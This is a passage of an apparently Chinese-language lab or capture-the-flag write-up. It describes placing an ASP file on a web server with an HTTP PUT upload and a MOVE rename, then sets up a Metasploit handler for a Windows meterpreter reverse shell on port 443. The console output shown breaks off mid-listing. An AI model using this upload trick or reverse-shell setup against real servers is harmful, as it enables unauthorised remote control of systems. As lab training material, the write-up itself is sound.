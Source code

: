 将asp内容复制到txt文本中…

![截图](7cc4b60428cd3481411e01325173f881.png)

可以看到通过put上传文件，然后move重名了文件，即可。

## 反弹shell

curl的方式有些问题，启动 Metasploit后失败：

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/handler) > set lport 443
lport => 443
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     443              yes       The listen port


Exploit target:

   Id  Name
```